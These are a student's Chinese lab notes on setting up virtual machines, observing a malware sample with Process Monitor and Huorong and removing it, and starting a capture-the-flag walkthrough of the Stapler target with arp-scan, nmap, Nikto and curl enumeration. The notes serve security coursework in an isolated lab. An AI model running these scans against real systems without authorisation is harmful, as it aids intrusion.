# 配置虚拟机
## 准备
- `VMware Workstation Pro`
- `Ubuntu`的`iso`文件——[Ubuntu 22.04.5 LTS (Jammy Jellyfish)](https://releases.ubuntu.com/jammy/)
- `Windows10`的`iso`文件——[下载 Windows 10](https://www.microsoft.com/zh-cn/software-download/windows10)
---

## 安装Ubuntu
- 打开`VMware`，选择`"Create a New Virtual Machine"`
- 选择`"Typical"`安装 -> `next`
- 在`"Installer disc image file(iso):"`处选择下载好的`iso`文件 -> `next `
- 设置账号以及硬件配置等基本操作
- 开机后进入安装界面
- `Installl Ubuntu` -> 语言：`English` ，键盘：`English` -> `Minimal installaation`并勾选：
	- ✔ Download updates while installing
	- ✔ Install third-party software
- 安装类型为：`Erase disk and install Ubuntu`
 - ## 配置代理
- `settings` -> `Network` -> `Network Proxy` -> `Manual`

---
## 安装`Windows10`
- 基本安装
	- 打开`VMware`，选择`"Create a New Virtual Machine"`
	- 选择`"Typical"`安装 -> `next`  -> 选择下载好的`iso`文件
	- 设置账号以及硬件配置等基本操作
	- 开机后进入安装界面
- 配置代理同上
- 安装客机增强件：
	- `VM -> install VMware Tools -> 点击“此电脑”中的盘片 -> 下载相关文件`
	- 右下角显示出`VM Tools`即为安装成功
- 共享文件
	- 先点击`VMware`顶部菜单的`VM`,选择`Settings...`
	- 在弹出的设置窗口中点击`Options`选项卡
	- 找到并点击`Shared Folders`，文件夹的共享状态为`Always enabled`
	- 点击下方的`Add`添加，不要勾选`Read-only`
	- 将共享文件夹映射为网络驱动器
		- 打开虚拟机的“此电脑”；
		- 在顶部菜单栏找到“映射网络驱动器”
		- 将共享文件夹的地址填入其中
- 快照
	- 创建快照
		- 将虚拟机开机
		- 先点击`VMware`顶部菜单的`VM`,选择`Snapshot -> take Snapshot`
		- 在弹出的页面中输入快照名称与描述
	- 恢复快照
		- 在相同的页面点击`Reserve to Snapshot ...`即可
- 迁移

---

# 注册表
- 打开方式
	- 快捷键`Win + R`打开运行窗口，输入`regedit`并在弹出的对话框中选择允许
- 五个**根节点**
	- **`HKEY_CLASSES_ROOT`**：存储各类不同文件扩展名对应的默认打开程序
	- **`HKEY_CURRENT_USER`**：当前用户的配置数据信息
	- **`HKEY_LOCAL_MACHINE`**：硬件、计算机所有用户的配置数据信息
	- **`HKEY_USERS`**：计算机默认用户的配置文件和已知用户的配置文件的子项
	- **`HKEY_CURRENT_CONFIG`**：当前硬件配置信息

---

# 进程行为分析报告
## 1‍⃣下载软件
- 在畅课平台中将需要的软件下载并拖到虚拟机中
- 主要包括
	-  `homework.zip`
	- `ProcessMonitor.zip`
	- `ProcessExplorer.zip`
## 2‍⃣实验过程
- 对`zip`文件进行解压
- 启动`ProcessMonitor`   

- 在`Process Monitor`中添加过滤条件（`CTRL+L`），使其只显示`homework.exe`相关操作记录，条件添加成功后，**点击 `Apply`**   

- 此时我们会看见后面显示为空白，是因为还没有运行`homework.exe`程序
- 接下来我们需要运行`.exe`程序
	- 打开`powershell`并`cd`到文件所在目录
	- ```bash
	   .\homework.exe 202512063055
	  ```

- 因为已知目标文件为`jpg`文件，所以进一步缩小范围
	- `CTRL+F`进行查找，然后复制文件地址，打开即可得到图片   

# 杀毒作业
## 实验准备
1‍⃣**先将实验所需的材料下载到虚拟机上**
- `ProcessMonitor`
- `7-zip`
- 火绒剑
- 病毒样本

2‍⃣**先对虚拟机进行一个快照，方便恢复备份**


3‍⃣**关闭虚拟机的网络连接**，避免恶意程序运行过程中与外部环境继续通信。

同时还需要断开
```txt
共享文件夹
共享粘贴板
拖放
```
---
## 实验过程
###  **分析病毒行为**
1‍⃣用`Process Monitor`分析 

- 病毒需要解压并输入密码`"iqiqiya"`
- 运行病毒后生成一个`0.vbs`脚本

- 病毒运行时间太久了，已经无法打开`powershell`
- 在`Process Monitor`中终止进程，试图打开火绒剑但是失败了


2‍⃣**虚拟机关机并恢复到杀毒前**
- 先把火绒剑打开并关闭杀毒软件；按刚才操作再操作一遍
- 病毒运行后，找到火绒剑的进程，找到最上面的`malware.exe`，右键，“结束进程树”，再等一段时间后就能成功结束病毒
- 结束进程后刷新磁盘空间，可以看到 `C` 盘空间不再继续减少，说明恶意程序的持续写入行为已经被阻止。

---
## **程序行为分析**
1‍⃣首先新增过滤条件，观察恶意程序是否生成脚本文件

在过滤结果中可以找到`.vbs`文件的相关路径

进一步查看单条记录可以看到该文件的具体路径

2‍⃣接着增加过滤条件来查看程序自身的进程活动


通过过滤结果可以发现，`malware.exe`会创建大量子进程，这是其恶意行为的重要特征之一
```txt
恶意程序的行为：
- 生成 .vbs 脚本文件
- 创建大量子进程
- 持续写入 .dat 文件挤占C盘空间
```

---
## 查杀过程
- 首先删除恶意程序本身
- 随后在`ProcessMonitor`中定位到一个`.dat`文件，右键、`Jump To`跳转到对应目录并删除该文件夹下所有的`.dat`文件

- 清理完成后可以看到磁盘空间已恢复到接近实验前的状态，说明本次杀毒工作完成

---
# 游乐场


## 准备

- 先从畅课平台上将文件下载到本地、解压

- 同时也需要准备linux系统，但是之前已经配置过了，这里就不多赘述

---

## 导入靶机 

- “管理”->“导入虚拟电脑”->选择”Stapler.ovf“，点击下一步

同时需要保证以下三个在同一文件夹下
```txt
Stapler.ovf
Stapler.mf
Stapler-disk1.vmdk
```

---

## 给kali添加仅主机网卡

左侧选中
```txt
kali-linux-2026.1-virtualbox-amd64
```
点击上方
```txt
设置
```
进入
```txt
网络
```
配置如下图



---

## 启动虚拟机

先启动`vm`



保持Stapler 开机，再启动kali



---

## 查看网卡

```bash
ip -br a
```
查看当前虚拟机有哪些网卡，以及每张网卡拿到了什么地址


```txt
eth0：10.0.2.15        → NAT，上网用
eth1：192.168.56.102   → Host-Only，连接靶机用
```
eth1 的 192.168.56.102 是 Kali 在 Host-Only 网络中的地址，并不是靶机地址。
靶机地址需要通过 arp-scan 和 Nmap 扫描进一步确定。

---

## 主机发现

为确定 Stapler 靶机在 Host-Only 虚拟网络中的 IP 地址，在 Kali Linux 中使用 `arp-scan` 对本地网段进行主机存活探测。
```bash
sudo arp-scan -I eth1 --localnet
```


可以看出
```txt
192.168.56.1 ：通常是宿主机的 VirtualBox 虚拟网卡
192.168.56.102 ：你的 Kali
192.168.56.100 和 192.168.56.101：两台 VirtualBox 虚拟机，其中一台是 Stapler
```

---

## 扫描两个候选 IP 的端口

```bash
mkdir -p ~/CTF/Stapler
cd ~/CTF/Stapler
sudo nmap -sC -sV -Pn -oN initial.txt 192.168.56.100 192.168.56.101
```
检查两台设备开放了哪些服务，从而确定哪台是Stapler
参数含义
```txt
-sC    使用 Nmap 默认脚本，收集服务的基本信息
-sV    识别端口上的服务及版本
-Pn    不先检测主机是否响应 Ping，直接扫描
-oN    将扫描结果保存到 initial.txt
```
Stapler 通常会开放较多端口，例如：
```txt
21    FTP
22    SSH
53    DNS
80    HTTP
139   SMB
666   某个特殊服务
3306  MySQL
```

---

## 扫描全部TCP端口

通过刚才的扫描确定
```txt
192.168.56.101 = Stapler 靶机
```
接下来扫描全部端口
```bash
sudo nmap -p- -Pn -T4 --min-rate 2000 -oN allports.txt 192.168.56.101
```
作用：
```txt
-p-               扫描 1～65535 的全部 TCP 端口
-Pn               不进行 Ping 判断，直接扫描
-T4               加快扫描速度
--min-rate 2000   每秒至少发送约 2000 个探测包
-oN allports.txt  把结果保存到 allports.txt
```



可以确认开放了8个TCP端口
```txt
21      FTP
22      SSH
53      DNS
80      HTTP
139     SMB
666     未知服务
3306    MySQL
12380   未知服务
```

---

## 识别这些端口上的具体服务

```bash
sudo nmap -sC -sV -Pn -p21,22,53,80,139,666,3306,12380 -oN services.txt 192.168.56.101
```
扫描每个端口运行的是什么软件、什么版本，还有没有可直接发现的信息

从扫描结果可以看出12380 端口运行 Apache Web 服务，下一步优先检查12380的网站

---

## 访问12380网站

```bash
curl -k -I https://192.168.56.101:12380/
```
这条命令用于确认网站是否可以通过 HTTPS 正常访问，并查看服务器返回的响应头：
```txt
-k   忽略靶机的自签名 HTTPS 证书
-I   只查看响应头，不下载整个网页
```



查看扫描结果，有一行很可疑：
```txt
Dave: Something doesn't look right here
```
`Dave` 不是常见的 HTTP 标准响应头，应该是靶机作者留下的提示。

---

## 用 Nikto 枚举网站

```bash
nikto -h https://192.168.56.101:12380 -output nikto12380.txt
```
Nikto 会自动检查这个网站是否存在：
- 隐藏目录和后台
- 常见管理页面
- 危险或遗漏的文件
- Web 服务器配置问题
- 暴露的版本和响应头



从中最重要的发现是
```txt
/robots.txt: contains 2 entries which should be manually viewed
```

---

## 读取robots.txt

```bash
curl -ks https://192.168.56.101:12380/robots.txt | tee robots.txt
```
参数含义
```txt
-k                忽略靶机的自签名 HTTPS 证书
-s                静默运行，不显示下载进度
tee robots.txt    在屏幕显示结果，同时保存到文件
```


从结果我们看出两个隐藏目录
```txt
/admin112233/
/blogblog/
```

---

## 分别访问这两个目录

这是在对 `robots.txt` 暴露的目录进行**人工验证**，确认：
- 路径是否真实存在
- 返回状态码是 `200`、`301`、`403` 还是 `404`
- 页面运行的是什么程序
- 是否存在登录入口、后台、博客或其他提示
```bash
curl -ks -I https://192.168.56.101:12380/admin112233/
curl -ks -I https://192.168.56.101:12380/blogblog/
```
再用firefox分别打开两个网站
```txt
https://192.168.56.101:12380/admin112233/
https://192.168.56.101:12380/blogblog/
```

---

## 确认 WordPress 网站

访问两个目录后发现：
```txt
/admin112233/
```
主要显示提示信息，没有发现可直接利用的功能。
而：
```txt
/blogblog/
```
能够正常打开一个博客网站。
通过查看网页源代码、页面目录结构以及登录地址，可以确认该网站使用的是 WordPress。
```bash
curl -ks https://192.168.56.101:12380/blogblog/ | grep -i wordpress
```
也可以尝试访问 WordPress 的默认登录页面：
```txt
https://192.168.56.101:12380/blogblog/wp-login.php
```
如果能够正常显示登录页面，说明该目录确实运行了 WordPress。

